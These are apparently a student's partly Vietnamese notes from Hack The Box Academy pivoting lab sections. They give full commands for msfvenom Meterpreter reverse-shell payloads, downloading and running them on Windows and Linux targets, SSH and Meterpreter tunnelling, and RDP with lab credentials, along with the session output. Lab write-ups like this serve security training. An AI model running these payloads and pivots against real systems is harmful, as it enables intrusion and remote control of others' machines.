






# The Networking Behind Pivoting

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Cheat Sheet

+ 1  Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?

 ```zsh
0xsrt@htb[/htb]$ ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 134.122.100.200  netmask 255.255.240.0  broadcast 134.122.111.255
        inet6 fe80::e973:b08d:7bdf:dc67  prefixlen 64  scopeid 0x20<link>
        ether 12:ed:13:35:68:f5  txqueuelen 1000  (Ethernet)
        RX packets 8844  bytes 803773 (784.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5698  bytes 9713896 (9.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
+ 1  Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for a host with the IP address of 10.129.10.25, out of which NIC will the packet be forwarded?

tun0
+ 1  Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for www.hackthebox.com what is the IP address of the gateway it will be sent to?
178.62.64.1

# Dynamic Port Forwarding with SSH and SOCKS Tunneling

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.202.64 (ACADEMY-PIVOTING-LINUXPIV)   

Life Left: 167 minute(s)  Terminate 

 SSH to 10.129.202.64 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 0  You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```zsh
ubuntu@WEB01:~$ ifconfig | grep inet | grep -v 'inet6' | wc -l
3
```

+ 0  Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

```zsh
❯ tail -n 4 /etc/proxychains4.conf
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
socks5  127.0.0.1 1080
```

```zsh
ssh -D 1080 ubuntu@$ip
```

```zsh
proxychains4 xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123 /dynamic-resolution
```





# Remote/Reverse Port Forwarding with SSH

Answer the question(s) below to complete this Section and earn cubes!

 SSH to  with user "ubuntu" and password "HTB_@cademy_stdnt!"

+ 0  Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)

Private IP



+ 0  What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)

It's alway 0.0.0.0

Giờ tiến hành lấy reverse shell của windows nhờ vào reverse port forwarding

Quy trình như sau:
- Generating payload
- Meterpreter listen on 8000 VM
- Reverse  port forward  8080 on ubuntu --> 8000 VM
- Transfering Payload VM --> Ubuntu --> Windows
- Reverse Windows shell --> 8080 ubuntu --> 8000 (meterpreter) VM


### Generating payload

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=8080 -f exe -o backup.exe
```

### Meterpreter listen on 8000 VM


```zsh
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8000 
```

### Reverse  port forward  8080 on ubuntu --> 8000 VM

```zsh
ssh -R 8080:localhost:8000 ubuntu@$ip
```

Trong bài học, chúng ta đã biết trước địa chỉ ip của Windows là 172.16.5.19, do vậy chúng ta không cần check nữa.

Tiếp theo ta sẽ tải payload sang ubuntu rồi tải tiếp payload sang windows.

### Transfering Payload

Dymanic forwarding:

```zsh
ssh -D 1080 ubuntu@10.129.241.73
```

rdp with proxychains4

```zsh
proxychains4 xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123 /dynamic-resolution
```

On ubuntu:
```zsh
ubuntu@WEB01:~$ python3 -m http.server 8765
```

On Windows:
```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8765/backup.exe" -OutFile "C:\Users\Public\backup.exe"
```

### Reverse Windows shell --> 8080 ubuntu --> 8000 (meterpreter) VM



```zsh
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8000 
[*] Sending stage (203846 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1:50736) at 2025-05-10 04:00:05 -0400

meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > 
```

# Meterpreter Tunneling & Port Forwarding

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.241.73 (ACADEMY-PIVOTING-LINUXPIV)   

 SSH to 10.129.241.73 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

On VM

```zsh
ssh ubuntu@10.129.241.73
```

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=8888 -f elf -o backup

python3 -m http.server 9981
```

```zsh
❯ sudo msfconsole -q
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8888 
```

On ubuntu

```zsh
wget http://10.10.14.89:9981/backup
chmod +x backup
./backup
```

We got the reverse shell
```zsh
[*] Started reverse TCP handler on 0.0.0.0:8888 
[*] Sending stage (3045380 bytes) to 10.129.241.73
[*] Meterpreter session 1 opened (10.10.14.89:8888 -> 10.129.241.73:56540) at 2025-05-10 05:03:09 -0400

meterpreter > sysinfo
Computer     : 10.129.241.73
OS           : Ubuntu 20.04 (Linux 5.4.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

+ 0  What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

Use `ifconfig` we can see private ip and subnet mask, the range ip is `172.16.5.0/23`


255.255 = 8+8 bits; 254 = 2^7
=7bits => lends 16+7=23 => `172.16.5.0/23`

```zsh
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
[*] Performing ping sweep for IP range 172.16.5.0/23
[+]     172.16.5.19 host found
[+]     172.16.5.129 host found
```

+ 0  Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x) 172.16.5.0/255.255.254.0

```zsh
meterpreter > run autoroute -s 172.16.5.0/23
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.241.73
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.254.0      Session 1
```

Nếu đã cấu hình autoroute thì không cần cấu hình socks proxy như bên dưới nữa không cần thông qua proxychains.

Test nmap:

```zsh
nmap 172.16.5.19 -p3389 -sT -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 05:30 EDT
Initiating Parallel DNS resolution of 1 host. at 05:30
Completed Parallel DNS resolution of 1 host. at 05:30, 0.06s elapsed
Initiating Connect Scan at 05:30
Scanning 172.16.5.19 [1 port]
Completed Connect Scan at 05:30, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.09 seconds
```


#### Configuring MSF's SOCKS Proxy

```zsh
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```

Test nmap:

```zsh
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
<snip>
PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server
```

#### Port Forwarding

Chúng ta có thể forward cổng 7777 trên local sang 3389 của 172.16.5.19

```zsh
meterpreter > portfwd add -l 7777 -p 3389 -r 172.16.5.19
[*] Forward TCP relay created: (local) :7777 -> (remote) 172.16.5.19:3389
```

```zsh
xfreerdp3 /v:localhost:7777 /u:victor /p:pass@123
```

Lưu ý cách này và auto route không ổn định như cách dùng socks proxy.

#### Reverse Port Forwarding

```zsh
meterpreter > portfwd add -R -l 12345 -p 4444 -L 10.10.14.89
[*] Reverse TCP relay created: (remote) [::]:4444 -> (local) 10.10.14.89:12345
```

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=4444 -f exe -o script.exe
```

```zsh
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     12345             yes       The listen port
```

```zsh
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:12345 
[*] Sending stage (203846 bytes) to 10.10.14.89
[*] Meterpreter session 2 opened (10.10.14.89:12345 -> 10.10.14.89:34867) at 2025-05-10 06:34:40 -0400

meterpreter > sysinfor
[-] Unknown command: sysinfor. Did you mean sysinfo? Run the help command for more details.
meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
```